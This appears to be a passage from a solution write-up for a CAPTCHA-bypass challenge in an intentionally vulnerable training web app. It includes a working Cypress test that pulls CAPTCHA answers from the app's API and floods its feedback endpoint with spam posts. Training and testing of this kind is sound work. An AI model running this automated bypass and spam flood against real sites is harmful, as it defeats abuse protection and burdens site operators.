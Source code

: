 Two alternate (but more complex) solutions:

- Rewrite your script so that it *parses the response from each CAPTCHA retrieval call* to [http://localhost:3000/rest/captcha/](http://localhost:3000/rest/captcha/) and sets the extracted `captchaId` and `answer` parameters in each subsequent form submission as `captchaId` and `captcha`.
- Using an automated browser test tool like [Selenium WebDriver](https://www.seleniumhq.org/) you could do the following:
    1. Read the CAPTCHA question from the HTML element `<code id="captcha" ...>`
    2. Calculate the result on the fly using JavaScript
    3. Let WebDriver write the answer into the `<input name="feedbackCaptcha" ...>` field.

The latter is actually the way it is implemented in the end-to-end test for this challenge:

```jsx
  describe('challenge "captchaBypass"', () => {
   it('should be possible to post 10 or more customer feedbacks in less than 20 seconds', () => {
      cy.window().then(async () => {
         for (let i = 0; i < 15; i++) {
            const response = await fetch(
                    `${Cypress.env('baseUrl')}/rest/captcha/`,
                    {
                       method: 'GET',
                       headers: {
                          'Content-type': 'text/plain'
                       }
                    }
            )
            if (response.status === 200) {
               const responseJson = await response.json()

               await sendPostRequest(responseJson)
            }

            async function sendPostRequest (captcha: {
               captchaId: number
               answer: string
            }) {
               await fetch(`${Cypress.env('baseUrl')}/api/Feedbacks`, {
                  method: 'POST',
                  cache: 'no-cache',
                  headers: {
                     'Content-type': 'application/json'
                  },
                  body: JSON.stringify({
                     captchaId: captcha.captchaId,
                     captcha: `${captcha.answer}`,
                     comment: `Spam #${i}`,
                     rating: 3
                  })
               })
            }
         }
      })
      cy.expectChallengeSolved({ challenge: 'CAPTCHA Bypass' })
   })
})
```
